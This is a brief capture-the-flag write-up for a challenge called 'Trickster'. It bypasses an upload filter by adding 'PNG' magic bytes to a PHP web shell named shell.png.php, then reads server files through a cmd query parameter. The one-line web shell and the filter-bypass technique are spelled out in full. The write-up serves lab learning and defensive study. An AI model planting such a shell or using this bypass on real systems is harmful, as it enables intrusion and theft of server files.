

# Trickster



Checked `robots.txt` and found `instructions.txt`, which said to upload a PNG file.


To bypass the filter, I created a PHP web shell and named it `shell.png.php`:

```php

PNG
<?php system($_GET['cmd']); ?>
```

***Note:** It should start with `'PNG'` to trick the file type check.*

Uploaded the file—it's stored in the `/uploads` directory.

Accessed the shell through:

`http://example.com/uploads/shell.png.php?cmd=ls`

Used `ls ..` to list files in the parent directory.


Used `cat ../filename` to read files.

***Note:** You can also try `cd ../*` to navigate and read all files.*


Eventually found and revealed the flag.

